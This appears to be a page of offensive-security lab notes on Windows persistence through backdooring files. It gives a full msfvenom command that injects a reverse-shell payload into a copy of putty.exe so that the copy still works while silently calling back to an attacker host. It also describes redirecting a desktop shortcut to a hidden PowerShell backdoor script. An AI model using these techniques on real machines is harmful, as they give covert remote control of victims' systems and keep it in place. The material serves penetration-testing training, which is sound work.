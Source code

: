 

## Backdooring Files

### Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command.

**Victim(cmd)**

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=$KALI lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse\_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.



If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to **calc** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing.



**Target:** powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1

<figure><img src="../../.gitbook/assets/image (15) (7).png" alt=""><figcaption></figcaption></figure>
